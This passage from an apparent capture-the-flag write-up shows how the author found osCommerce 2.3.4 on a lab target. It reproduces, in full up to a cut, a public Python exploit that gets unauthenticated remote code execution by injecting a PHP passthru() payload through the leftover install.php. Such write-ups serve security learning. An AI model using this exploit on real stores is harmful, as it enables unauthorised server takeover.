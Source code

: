 ## System Hacking
### Exploit DB
- During our enumeration, we were able to uncover the underlying system that runs the `catalog` page hosted on the web server. It looks like osCommerce was used, so we can start by looking around and researching exploits to see if that can help us. Looking at the screenshot above, we can see that the version of osCommerce being used is 2.3.4. We can find an RCE exploit:

![Exploit-DB osCommerce](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/d6b86936-6b31-41fb-bc74-ff0f7f2cb0fb)


- Here is the code that we will be using to grab a shell on the target:
```python
# Exploit Title: osCommerce 2.3.4.1 - Remote Code Execution (2)
# Vulnerability: Remote Command Execution when /install directory wasn't removed by the admin
# Exploit: Exploiting the install.php finish process by injecting php payload into the db_database parameter & read the system command output from configure.php
# Notes: The RCE doesn't need to be authenticated
# Date: 26/06/2021
# Exploit Author: Bryan Leong <NobodyAtall>
# Vendor Homepage: https://www.oscommerce.com/
# Version: osCommerce 2.3.4
# Tested on: Windows

import requests
import sys

if(len(sys.argv) != 2):
	print("please specify the osCommerce url")
	print("format: python3 osCommerce2_3_4RCE.py <url>")
	print("eg: python3 osCommerce2_3_4RCE.py http://localhost/oscommerce-2.3.4/catalog")
	sys.exit(0)

baseUrl = sys.argv[1]
testVulnUrl = baseUrl + '/install/install.php'

def rce(command):
	#targeting the finish step which is step 4
	targetUrl = baseUrl + '/install/install.php?step=4'

	payload = "');"
	payload += "passthru('" + command + "');"    # injecting system command here
	payload += "/*"

	#injecting parameter
	data = {
		'DIR_FS_DOCUMENT_ROOT': './',
		'DB_DATABASE' : payload
	}	

	response = requests.post(targetUrl, data=data)

	if(response.status_code == 200):
		#print('[*] Successfully injected payload to config file')

		readCMDUrl = baseUrl + '/install/includes/configure.php'
		cmd = requests.get(readCMDUrl)

		commandRsl = cmd.text.split('\n')

		if(cmd.status_code == 200):
			#print('[*] System Command Execution Completed')
			#removing the error message above
			for i in range(2, len(commandRsl)):
```